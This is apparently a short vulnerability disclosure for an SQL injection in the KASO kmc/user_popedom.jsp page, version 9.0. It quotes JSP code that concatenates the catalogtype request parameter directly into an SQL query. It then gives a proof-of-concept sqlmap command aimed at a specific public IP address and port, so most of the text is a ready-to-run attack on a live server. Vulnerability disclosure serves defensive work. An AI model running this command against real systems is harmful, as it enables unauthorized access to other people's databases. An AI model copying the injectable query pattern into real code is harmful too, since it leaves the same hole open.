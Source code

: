 # KASO kmc/user_popedom.jsp Sql Injection


VERSION: v9.0

Exploit Author: hndky


Code

    String catalogtype=ParamUtils.getString(request,"catalogtype",""); 

    <%     
       SQL=" select username,action,usertype,dzyname "
          +" from km_popedom a,zhiydoc b "
          +" where a.username=b.dzyid and folderid='"+ catalogtype +"' ";
       //out.println(SQL);
       rs=DBmenu.executeQuery(SQL);
    %>


Injection：catalogtype

Injection url: http://47.108.238.101:8088/kmc/user_popedom.jsp?catalogtype=1


poc:
python .\sqlmap.py -u "http://47.108.238.101:8088/kmc/user_popedom.jsp?catalogtype=1" --random-agent --dbms=mssql


![image](https://github.com/user-attachments/assets/411f83b4-b5a4-4f78-b6ec-62fa663e46f7)





